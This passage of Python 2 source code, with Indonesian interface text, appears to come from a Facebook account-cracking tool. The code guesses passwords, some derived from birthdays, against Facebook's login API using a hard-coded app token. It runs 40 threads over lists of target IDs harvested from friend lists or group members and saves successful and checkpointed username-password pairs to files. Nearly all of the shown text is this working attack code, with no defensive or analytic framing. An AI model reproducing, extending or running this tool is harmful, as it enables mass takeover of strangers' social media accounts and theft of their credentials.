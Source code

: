 '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: if 'www.facebook.com' in y['error_msg']: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: lahir = a['birthday'] pz4 = lahir.replace('/', '') data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') y = json.load(data) if 'access_token' in y: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: if 'www.facebook.com' in y['error_msg']: print '\x1b[1;91m[+] \x1b[1;92mDitemukan.' print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m : ' + a['name'] print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() else: print '\x1b[1;91m[!] Maaf, gagal membuka password target :(' print '\x1b[1;91m[!] Cobalah dengan cara lain.' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() except KeyError: print '\x1b[1;91m[!] Terget tidak ditemukan' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() def crack(): global file global idlist global passw os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID \x1b[1;91m: \x1b[1;97m') passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m') try: file = open(idlist, 'r') jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') for x in range(40): zedd = threading.Thread(target=scrak, args=()) zedd.start() threads.append(zedd) for zedd in threads: zedd.join() except IOError: print '\x1b[1;91m[!] File tidak ditemukan' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') menu_hack() def scrak(): global back global berhasil global cekpoint global gagal global up try: buka = open(idlist, 'r') up = buka.read().split() while file: username = file.readline().strip() url = 'https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + username + '&locale=en_US&password=' + passw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6' data = urllib.urlopen(url) mpsh = json.load(data) if back == len(up): break if 'access_token' in mpsh: bisa = open('Berhasil.txt', 'w') bisa.write(username + ' | ' + passw + '\n') bisa.close() berhasil.append('\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw) back += 1 else: if 'www.facebook.com' in mpsh['error_msg']: cek = open('Cekpoint.txt', 'w') cek.write(username + ' | ' + passw + '\n') cek.close() cekpoint.append('\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw) back += 1 else: gagal.append(username) back += 1 sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint))) sys.stdout.flush() except IOError: print '\n\x1b[1;91m[!] Koneksi terganggu' time.sleep(1) except requests.exceptions.ConnectionError: print '\x1b[1;91m[\xe2\x9c\x96] Tidak ada koneksi' def hasil(): print print 40 * '\x1b[1;97m\xe2\x95\x90' for b in berhasil: print b for c in cekpoint: print c print print '\x1b[31m[x] Gagal \x1b[1;97m--> ' + str(len(gagal)) keluar() def super(): global toket os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;37;40m1. Crack dari daftar Teman' print '\x1b[1;37;40m2. Crack dari member Grup' print '\x1b[1;31;40m0. Kembali' print pilih_super() def pilih_super(): peak = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ') if peak == '': print '\x1b[1;91m[!] Jangan kosong' pilih_super() else: if peak == '1': os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id teman \x1b[1;97m...') r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket) z = json.loads(r.text) for s in z['data']: id.append(s['id']) else: if peak == '2': os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Grup \x1b[1;91m:\x1b[1;97m ') try: r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&access_token=' + toket) asw = json.loads(r.text)
print